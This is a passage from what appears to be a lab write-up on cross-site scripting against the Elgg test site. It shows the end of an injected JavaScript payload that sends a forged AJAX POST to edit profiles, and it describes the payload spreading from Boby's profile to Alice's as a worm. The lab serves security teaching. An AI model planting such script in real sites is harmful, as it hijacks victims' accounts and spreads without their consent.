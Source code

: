```
      //Create and send Ajax request to modify profile
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
      Ajax.setRequestHeader(
        "Content-Type",
        "application/x-www-form-urlencoded"
      );
      Ajax.send(content);
    }
  };
</script>

```
Edit Boby's profile as the code above. Then sign-in as Boby to view his profile page, as expected, Boby is injected and shows "modified by Samy". Log-out and then log-in as Alice to view Boby's profile, now you can found that Alice's profile is also changed.

![alt text](https://github.com/Qurat-ul-ainn/Cross-scripting-attack/blob/main/88.PNG)
